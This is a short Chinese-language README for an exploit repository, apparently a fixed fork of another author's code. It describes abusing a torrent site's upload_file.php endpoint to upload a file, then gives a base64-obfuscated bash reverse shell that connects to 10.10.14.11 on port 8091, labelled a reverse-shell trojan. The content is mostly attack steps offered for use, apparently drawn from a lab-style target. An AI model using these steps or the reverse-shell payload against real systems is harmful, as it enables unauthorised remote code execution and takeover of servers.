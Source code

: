 # exploits
在大佬的项目上进行修改的，运行大佬的代码存在报错，对代码进行了下修复
https://github.com/Anon-Exploiter/exploits

#代码执行逻辑
利用要求 需要有一个账户，账户下面有一个torrents文件。可以获得 tid

url + index.php?mode=directory   查看上传的torrents文件，如果没有上传需要先上传一个才能利用

url + upload_file.php?mode=upload&id= tId    向tId 上传文件

#反弹shell 木马
echo -n '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/8091 0>&1"' |base64
echo $base64_code |base64 -d| bash

